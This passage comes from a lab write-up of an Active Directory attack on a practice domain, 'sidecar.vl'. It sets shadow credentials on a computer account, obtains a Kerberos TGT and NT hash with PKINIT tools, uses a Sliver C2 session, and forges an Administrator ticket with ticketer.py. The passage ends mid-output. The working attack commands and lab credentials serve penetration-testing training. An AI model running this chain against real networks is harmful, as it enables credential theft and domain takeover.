 
Now we can go in the ldap shell and set shadow_creds :

```console
nc localhost 11000

# clear_shadow_creds WS01$
Found Target DN: CN=WS01,CN=Computers,DC=Sidecar,DC=vl
Target SID: S-1-5-21-3976908837-939936849-1028625813-2101

Shadow credentials cleared successfully!

# set_shadow_creds WS01$
Found Target DN: CN=WS01,CN=Computers,DC=Sidecar,DC=vl
Target SID: S-1-5-21-3976908837-939936849-1028625813-2101

KeyCredential generated with DeviceID: 9df41db1-4cef-3b1d-8223-dda6fd56c1fb
Shadow credentials successfully added!
Saved PFX (#PKCS12) certificate & key at path: oCleigu1.pfx
Must be used with password: mBRKWrFeqcbCyPMOI8R1
```
Thanks to PKINIT tools we can get a TGT and the NTHash for WS01$

```bash
gettgtpkinit.py -cert-pfx "oCleigu1.pfx" -pfx-pass "mBRKWrFeqcbCyPMOI8R1" "sidecar.vl/WS01$" "WS01_ccache"

2024-08-24 16:10:27,374 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-08-24 16:10:27,418 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-08-24 16:10:42,012 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-08-24 16:10:42,012 minikerberos INFO     12acd999464c95dbf1431f3a8e086e13f70c5731a674fc78292795224af9a166
INFO:minikerberos:12acd999464c95dbf1431f3a8e086e13f70c5731a674fc78292795224af9a166
2024-08-24 16:10:42,027 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

export KRB5CCNAME=WS01_ccache

getnthash.py -key '12acd999464c95dbf1431f3a8e086e13f70c5731a674fc78292795224af9a166' sidecar.vl/'WS01$'
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
9c[...]dc
```
Ok now we need to impersonate the Administrator of WS01$ to secretsdump, we can do this with ticketer :

```bash
# Get the --domain-sid with sliver :
sliver (sidecar-http) > getuid

S-1-5-21-3976908837-939936849-1028625813-1609

# So the --domain-sid is S-1-5-21-3976908837-939936849-1028625813

ticketer.py -nthash 9cdc4501e630a30cc0eeef79f23a62dc -domain-sid S-1-5-21-3976908837-939936849-1028625813 -domain sidecar.vl -dc-ip 10.10.210.69 -spn HOST/WS01.mist.htb Administrator
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sidecar.vl/forwriteup
[*]     PAC_LOGON_INFO
```